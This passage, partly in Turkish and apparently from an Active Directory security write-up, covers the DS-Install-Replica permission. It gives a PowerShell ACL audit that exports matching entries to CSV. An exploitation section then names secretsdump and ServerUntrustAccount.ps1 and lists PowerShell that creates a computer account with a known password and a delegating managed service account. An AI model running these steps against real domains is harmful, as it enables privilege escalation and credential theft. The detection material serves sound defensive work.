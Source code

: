 ```powershell
Get-ADObject -Identity $ObjectDistinguishedName | 

# Extracting Distinguished Name
Select-Object -ExpandProperty DistinguishedName |

# Iterating selected Distinguished Names
ForEach-Object { 

    # Retrieving Access Control Entries
    (Get-Acl -Path "AD:$_").Access |

    # Filtering Access Control Entries based on filter above
    Where-Object { 
        $_.AccessControlType -eq $AccessControlType -and 
        $_.IdentityReference -like $IdentityReference -and 
        $_.ActiveDirectoryRights -like $ActiveDirectoryRights -and
        $_.ObjectType -eq "9923a32a-3607-11d2-b9be-0000f87a36b2"   # Ds-Install-Replica Guid
    }
}

# Exporting found Access Control Entries into CSV file
Export-Csv -Path "FS-$ObjectDistinguishedName-$ActiveDirectoryRights-ACLs.csv" -NoTypeInformation;
```

## Exploitation

Saldırılar Impacket/Secretsdump.py ve ServerUntrustAccount.ps1 yardımıyla gerçekleştirilebilmektedir. Saldırganlar sistem üzerinde DS-Install-Replica iznine sahip kullanıcı ele geçirdiklerinde ServerUntrustAccount.ps1 modülü ve ayrıca aşağıdaki powershell betiklerini kullanarak parolası bilinen bilgisayar ve MSA hesapları oluşturabilirler.   

```powershell
# Computer Name to created
$ComputerName = "Computer123"

# Converting Password to SecureString format
$Password = (ConvertTo-SecureString -AsPlainText -Force "Password123")
 
# Creating Computer 
New-ADComputer $ComputerName -AccountPassword $Password
```

```powershell
# MSA Name to created
$ManagedServiceAccountName = "IISSVCC"

# DNS Host Name to created
$DNSHostName = "iissvcc.forestall.lab"
 
# DUser Name to created
$UserName = "forestall"
# Creating MSA  
New-ADServiceAccount -Name $ManagedServiceAccountName -DNSHostName $DNSHostName -PrincipalAllowedToDelegateToAccount $UserName
```
